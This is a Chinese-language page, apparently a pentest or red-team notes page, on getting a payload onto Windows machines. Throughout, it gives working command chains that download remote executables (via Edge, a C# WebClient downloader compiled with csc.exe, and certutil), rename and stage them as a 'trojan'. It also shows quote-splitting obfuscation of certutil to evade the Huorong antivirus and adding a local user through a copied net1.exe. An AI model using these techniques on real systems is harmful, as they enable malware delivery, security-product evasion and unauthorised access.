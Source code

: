 如果更改路径、但如果更改了下载路径就很难受，因为上面那个是默认路径。

只能全盘搜索了,把搜索到的文件复制到c:\users\public\下。

命令如下：下载asdb.zip复制asdb.zip到c:\users\public\123456.exe

```
start msedge http://192.168.1.1:19900/NNNNnop.rar://192.168.1.1:19900/NNNNnop.rar && ping -n 10 127.0.0.1 >NUL && for /f %k in ('cmd /v:off /Q /c "for /f %i in (^'wmic logicaldisk get caption ^| findstr ":"^') do dir %i\ /b /s 2>nul | findstr "NNNNnop.rar""') do set kk=%k && (set dd=%kk:NNNNnop.rar=123456.exe%) && rename %k 123456.exe && ping -n 
```

**csc.exe**

这个是windows自带的可以编译c#语言、绕过EDR、需要管理员权限

文件下载的cs、写入文件到1.txt，存放路径要是可读写的路径

```
using System.Net;
namespace downloader
{
    class Program
    {
        static void Main(string[] args)
        {
            WebClient client = new WebClient();
            string URLAddress = @"http://192.168.31.205/geek.exe"; //远程文件
            string receivePath = @"c:\geek.exe";//存放的位置，一定要是可读写执行位置
            client.DownloadFile(URLAddress, receivePath);
        }
    }
}
```

系统中.NET的版本可能不同，按实际情况判断

```
32位：C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe 
64位：C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe
注意：在有些低版本windows可能没有这个版本则使用
32位：C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe 
64位：C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe
```

将1.txt编译成下载2.exe的可执行文件

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe  /out:c:\1.exe c:\temp\1.txt 
执行后、在c盘文件下会有执行的木马文件
```

### **Certutil绕过方法**

**绕过火绒**

```
远程下载
"c""e""r""t""u""t""i""l" -"u""r""l""c""a""c""h""e" -split -f https://url/1.exe 1.exe
添加用户
copy c:\windows\system32\net1.exe aaa.txt
aaa.txt user xxxx 123456 /add
```
